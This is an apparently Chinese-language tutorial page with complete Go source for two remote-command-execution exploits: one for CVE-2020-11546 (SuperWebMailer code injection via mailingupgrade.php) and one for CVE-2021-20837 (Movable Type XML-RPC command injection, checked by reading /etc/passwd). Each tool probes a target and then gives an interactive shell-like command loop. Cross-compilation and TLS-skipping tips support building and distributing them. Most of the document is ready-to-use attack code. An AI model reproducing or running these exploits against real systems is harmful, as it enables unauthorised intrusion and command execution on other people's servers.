




# CVE-2020-11546
> [!NOTE]
> 已上传至GitHub:[https://github.com/damit5/CVE-2020-11546](https://github.com/damit5/CVE-2020-11546)

## 扩展1：交叉编译
```shell
CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/superwebmailerRCE_darwin
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/superwebmailerRCE_linux
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/superwebmailerRCE_win.exe
```
## 扩展2：go.mod
```shell
go mod init <仓库地址>
go mod init github.com/damit5/CVE-2020-11546
```
不然不能`go get -u`自动下载编译，会出现问题
## 扩展3：go get
直接使用`go get -u github.com/xxx`可能出现版本的问题，可以使用如下命令执行版本或者分支
```shell
go get -u -v github.com/damit5/CVE-2020-11546@master
```
> [!TIP]
> 也可以使用`@commit hash`等等
> - [http://icattlecoder.github.io/2019/03/29/go-module-and-version.html](710a251d3dbed66ab2a3a62f50e2112c)
> - [https://zhuanlan.zhihu.com/p/103534192](https://zhuanlan.zhihu.com/p/103534192)

## 扩展4：交互输入
```go
for {
    fmt.Printf("\n\ncommand: ")
    _, _ = fmt.Scanln(&command)
    if command != "" {
        break
    }
}
```
## 代码
```go
package main
import (
	"bytes"
	"fmt"
	"io/ioutil"
	"net/http"
	"os"
	"strings"
)
func banner(){
	fmt.Println(`
    .___ _____         ____  __          
  __| _//  |  |  _____/_   |/  |_  ______
 / __ |/   |  |_/     \|   \   __\/  ___/
/ /_/ /    ^   /  Y Y  \   ||  |  \___ \ 
\____ \____   ||__|_|  /___||__| /____  >
     \/    |__|      \/               \/
		CVE-2020-11546
`)
}
/* *
参数检查
 */
func argsCheck(args []string) {
	if len(args) != 2 {
		fmt.Printf("Usage:\n\t./%s <target>\n", args[0])
		os.Exit(0)
	}
}
/* *
url处理
 */
func urlHandler(target string) string {
	// 没有http前缀的添加http前缀
	if !strings.HasPrefix(target, "http") {
		target = "http://" + target
	}
	// 有/结尾的就去掉/
	if strings.HasSuffix(target, "/") {	// 去掉后缀 /
		target = strings.TrimSuffix(target, "/")
		fmt.Println(target)
	}
	return target
}
/* *
漏洞检查
 */
func check(target string) bool {
	// 创建请求
	vulurl := target + "/mailingupgrade.php"
	req, _ := http.NewRequest("POST", vulurl, bytes.NewReader([]byte(`step=4&Language=de%7b$%7bsystem(%22echo vultest%22)%7d%7d&RegName=12345678901234567890123&RegNumber=12345&NextBtn=Weiter+%3E`)))
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
	req.Header.Set("Content-type", "application/x-www-form-urlencoded")
	// 发起请求
	client := http.Client{}
	resp, _ := client.Do(req)
	body, _ := ioutil.ReadAll(resp.Body)
	if strings.Contains(string(body), "vultest") {
		return true
	}
	return false
}
/* *
漏洞检查
*/
func exp(target string, command string) {
	// 创建请求
	vulurl := target + "/mailingupgrade.php"
	data := `step=4&Language=de%7b$%7bsystem(%22` + command + `%22)%7d%7d&RegName=12345678901234567890123&RegNumber=12345&NextBtn=Weiter+%3E`
	req, _ := http.NewRequest("POST", vulurl, bytes.NewReader([]byte(data)))
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
	req.Header.Set("Content-type", "application/x-www-form-urlencoded")
	// 发起请求
	client := http.Client{}
	resp, _ := client.Do(req)
	body, _ := ioutil.ReadAll(resp.Body)
	res := strings.Replace(string(body), "Can't load correct language file in /language directory", "", -1)
	res = strings.TrimSpace(res)
	fmt.Println(res)
}
func main() {
	args := os.Args
	banner()
	argsCheck(args)
	target := args[1]
	target = urlHandler(target)
	if check(target) {
		fmt.Printf("target %s is vuln", target)
		var command string
		for {
			for {
				fmt.Printf("\n\ncommand: ")
				fmt.Scanln(&command)
				if command != "" {
					break
				}
			}
			exp(target, command)
		}
	} else {
		fmt.Printf("target %s is not vuln", target)
	}
}
```


## 测试图


# CVE-2021-20837
## 扩展5：忽略SSL证书
> [!WARNING]
> 这个错误不容易发现，所以需要经验来判断，在初始化客户端的时候需要忽略SSL证书

```go
var Client http.Client
tr := &http.Transport{
	TLSClientConfig: &tls.Config{InsecureSkipVerify: true},	// 忽略SSL证书
}
Client = http.Client{
	Transport: tr,
}
```
## 扩展6：正则表达式
默认情况下，`.`是不能匹配换行符`\n`的，有时候我们有需要通过`.`匹配到`\n`，这个时候就需要稍微修改一下`.`了
> [!TIP]
> 在线正则表达式测试网站：[https://regex101.com/](https://regex101.com/)

```go
(?s).*
```
**实例：**



## 代码
```go
package main
import (
	"bytes"
	"crypto/tls"
	"encoding/base64"
	"fmt"
	"io/ioutil"
	"net/http"
	"os"
	"regexp"
	"strings"
)
// 客户端全局变量
var Client http.Client
func banner(){
	fmt.Println(`
    .___ _____         ____  __          
  __| _//  |  |  _____/_   |/  |_  ______
 / __ |/   |  |_/     \|   \   __\/  ___/
/ /_/ /    ^   /  Y Y  \   ||  |  \___ \ 
\____ \____   ||__|_|  /___||__| /____  >
     \/    |__|      \/               \/
		CVE-2021-20837
`)
}
/* *
参数检查
*/
func argsCheck(args []string) {
	if len(args) != 2 {
		fmt.Printf("Usage:\n\t./%s <target>\n", args[0])
		os.Exit(0)
	}
}
/* *
url处理
*/
func urlHandler(target string) string {
	// 没有http前缀的添加http前缀
	if !strings.HasPrefix(target, "http") {
		target = "http://" + target
	}
	// 有/结尾的就去掉/
	if strings.HasSuffix(target, "/") {	// 去掉后缀 /
		target = strings.TrimSuffix(target, "/")
		fmt.Println(target)
	}
	return target
}
/* *
漏洞检查
*/
func check(target string) bool {
	// 创建请求
	vulurl := target + "/cgi-bin/mt/mt-xmlrpc.cgi"
	command := "`cat /etc/passwd`"
	base64_cmd := base64.StdEncoding.EncodeToString([]byte(command))
	payload := fmt.Sprintf(`<?xml version="1.0" encoding="UTF-8"?>
    <methodCall>
      <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
             %s
            </base64>
          </value>
        </param>
      </params>
    </methodCall>`, base64_cmd)
	req, _ := http.NewRequest("POST", vulurl, bytes.NewReader([]byte(payload)))
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
	req.Header.Set("Content-type", "text/xml; charset=UTF-8")
	// 发起请求
	tr := &http.Transport{
		TLSClientConfig: &tls.Config{InsecureSkipVerify: true},	// 忽略SSL证书
	}
	Client = http.Client{
		Transport: tr,
	}
	resp, _ := Client.Do(req)
	body, _ := ioutil.ReadAll(resp.Body)
	if strings.Contains(string(body), "root:x:0") {
		return true
	}
	return false
}
/* *
漏洞检查
*/
func exp(target string, command string) {
	// 创建请求
	vulurl := target + "/cgi-bin/mt/mt-xmlrpc.cgi"
	base64_cmd := base64.StdEncoding.EncodeToString([]byte("`" + command + "`"))
	payload := fmt.Sprintf(`<?xml version="1.0" encoding="UTF-8"?>
    <methodCall>
      <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
             %s
            </base64>
          </value>
        </param>
      </params>
    </methodCall>`, base64_cmd)
	req, _ := http.NewRequest("POST", vulurl, bytes.NewReader([]byte(payload)))
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
	req.Header.Set("Content-type", "text/xml; charset=UTF-8")
	// 发起请求
	resp, _ := Client.Do(req)
	body, _ := ioutil.ReadAll(resp.Body)
	// 正则表达式匹配结果
	regex, _ := regexp.Compile("Can't\\slocate\\s((?s).*)\\sin @INC")
	res := regex.FindAllStringSubmatch(string(body), 1)[0][1]
	fmt.Println(res)
}
func main() {
	args := os.Args
	banner()
	argsCheck(args)
	target := args[1]
	target = urlHandler(target)
	if check(target) {
		fmt.Printf("target %s is vuln", target)
		var command string
		for {
			for {
				fmt.Printf("\n\ncommand: ")
				_, _ = fmt.Scanln(&command)
				if command != "" {
					break
				}
			}
			exp(target, command)
		}
	} else {
		fmt.Printf("target %s is not vuln", target)
	}
}
```
## 测试图

